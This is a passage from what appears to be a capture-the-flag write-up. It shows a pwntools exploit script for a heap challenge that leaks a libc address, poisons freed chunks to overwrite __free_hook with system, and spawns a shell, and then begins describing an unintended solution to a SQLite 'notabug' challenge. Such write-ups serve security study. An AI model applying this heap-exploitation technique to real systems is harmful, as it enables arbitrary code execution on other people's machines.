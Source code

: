 ```python
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start(argv, env=env)

# decompress + compress <= 8

compress("A"*0x210) #0
compress("B") #1

free(0)
content(0)

io.recvuntil("content: ")
leak = io.recvline().rstrip()
leak = u64(leak.ljust(0x8, b'\x00'))
libc.address = leak - 0x1ecbe0
print("Libc base:", hex(libc.address))

compress("A"*0x10) #2
compress("A"*0x10) #3
compress("A"*0x10) #4

free(4)
free(3)
free(2)

payload = b"$48A"
payload += p64(libc.sym['__free_hook'])
payload = payload.ljust(0x10-1, b'\x00')

decompress(payload) #0

decompress(b"/bin/sh\x00".ljust(0x10, b'\x00')) #1

decompress(p64(libc.sym['system']).ljust(0x10, b'\x00'))

free(1, False)

io.interactive()
```

<h2 id="not-a-bug-sec">notabug (unintended)</h2>
Notabug was pwn challenge which required pwning the latest version of SQLite. The challenge simply gives us a SQLite prompt where we can insert any prompt. No patches were applied to the SQLite binary.

Initially I refrained from trying this challenge as it seemed quite hard. After a few hours though there was a second version of this challenge released with the following description: "Let it roll ( :) this time intended way). It's a feature, not a bug!". So there must be unintended ways to solve the first part of the challenge. This motivated me to look into the first part.
